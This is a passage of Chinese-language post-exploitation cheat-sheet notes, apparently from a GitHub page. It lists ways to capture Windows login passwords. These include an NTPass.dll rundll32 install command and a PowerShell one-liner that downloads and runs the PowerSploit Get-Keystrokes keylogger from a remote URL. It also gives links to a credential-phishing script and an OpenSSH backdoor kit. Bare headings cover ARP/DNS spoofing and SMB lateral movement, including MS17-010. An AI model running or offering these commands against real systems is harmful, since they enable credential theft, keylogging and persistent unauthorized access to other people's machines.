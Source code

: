 通过hook相关函数来记录登录密码

#### Ntpass

```shell
安装:	rundll32 NTPass.dll,Install
移除: rundll32 NTPass.dll,Remove
口令保存位置: %systemroot%\system32\eulagold.txt
```

#### Get-Keystrokes.ps1

```shell
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-Keystrokes.ps1’); Get-Keystrokes –Logpath C:\log.txt
```

#### Invoke-CredentialsPhish.ps1

https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-CredentialsPhish.ps1

#### Openssh后门

概念:OpenSSH是SSH协议的免费开源实现.

#### Openssh-backdoor-kit

https://github.com/jivoi/openssh-backdoor-kit

留后门

#### linux键盘记录sh2log

### ARP与DNS欺骗攻击

#### arp欺骗攻击

##### Cain

##### Abel

#### DNS欺骗攻击

## 横向移动

#### SMB协议利用

SMB(服务器消息块)网络文件共享系统

msf扫描:	auxiliary/scanner/smb/smb_login

##### MS17-010

#### 跨平台横向移动 [ wmi利用 ]

https://mp.weixin.qq.com/s/7YidkhJvmVBxFhYcD7pIfQ
